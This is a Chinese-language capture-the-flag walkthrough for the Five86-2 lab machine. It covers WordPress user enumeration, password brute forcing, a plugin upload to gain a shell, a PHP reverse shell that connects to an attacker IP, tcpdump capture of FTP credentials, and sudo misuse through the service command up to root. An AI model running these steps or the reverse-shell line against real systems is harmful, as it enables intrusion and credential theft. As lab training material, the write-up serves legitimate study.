# 信息搜集

## 主机发现

```
nmap -sn 192.168.182.0/24

nmap -sS 192.168.182.152
```



访问80端口,发现出了一点小问题，在hosts文件中加入

```
192.168.182.152  five86-2
```



这样就好了,在searchsploit和Google并没有发现WordPress 5.1.4的漏洞，还是先访问一下后台

# 后台登录

## wpscan扫描

先用wpscan扫描一下用户名

wpscan --url http://192.168.182.152 -e u  



将用户名保存到user.txt文件中

## cewl扫密码

cewl http://five86-2/ -w pass.txt

## 暴力破解

```
 wpscan --url http://192.168.182.152 -U user.txt -P pass.txt 
```

没跑出来

```
wpscan --url http://192.168.182.152-U user.txt -P /usr/share/wordlists/rockyou.txt
```

爆破出两个用户的密码

```
[SUCCESS] - barney / spooky1
[SUCCESS] - stephen / apollo1
```

# Getshell

## 插件漏洞

使用darney用户登录一下看看,发现barney用户可以加载插件，然后可以去搜索插件的漏洞，利用插件提权。





安着说明上的做,成功上传木马



准备用蚁剑连接反弹一个shell,但是蚁剑怎么都连不起,就在poc文件里又加了一个nc.php

```php
xxx<?php $sock=fsockopen("192.168.182.137",2333);exec("/bin/sh -i <&3 >&3 2>&3");
```

然后在index.php中?cmd=php nc.php

成功反弹shell

然后使用python进入交互模式

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

# 提权

## 提权paul

### tcpdump的抓包以及流量分析

去home目录下发现都进不去，打算su到其他用户，尝试刚才爆破出来的两个用户，barney用户密码不对,尝试stephen用户，成功登陆到stephen用户

但是找了半天都没有发现提权的方法



发现用户在pcap用户组里面

查看一下系统进程：

```
ps -auxwww
```



发现系统运行ftp，由于ftp传输是明文传输，这是时候想到监听系统网卡，分析流量，看看能不能捕捉到ftp的账号密码。
启动ftp的是“paul”帐号，使用“stephen”帐号通过tcpdump获取流量，并下载至本地分析。

```
tcpdump -D
注释：-D 打印出系统中所有可以用tcpdump截包的网络接口。
timeout 120 tcpdump -w hack.pcap -i vethbe01e05
注释：
timeout 120，是用来控制 tcpdump 的超时时间为 120s
tcpdump -w 保存为 saul.pcap，-i 的意思是指定监听的网络接口
```

最后读取刚刚获取的数据包发现一个 FTP 账号密码：

tcpdump -r hack.pcap



PASS esomepasswford

切换到paul用户

## 提权peter

sudo -l现可以使用peter用户的service程序



接着我使用 `sudo` 来以 `peter` 用户去运行 `/usr/sbin/service` ，并切换到 `/bin/bash` ，这个时候就成功切换到 `peter` 用户：

```
sudo -u peter /usr/sbin/service ../../bin/bash
```

成功获得peter用户的shell,还是sudo -l一下,发现



## 提权root

直接改root用户密码

```
sudo -u root passwd root
```

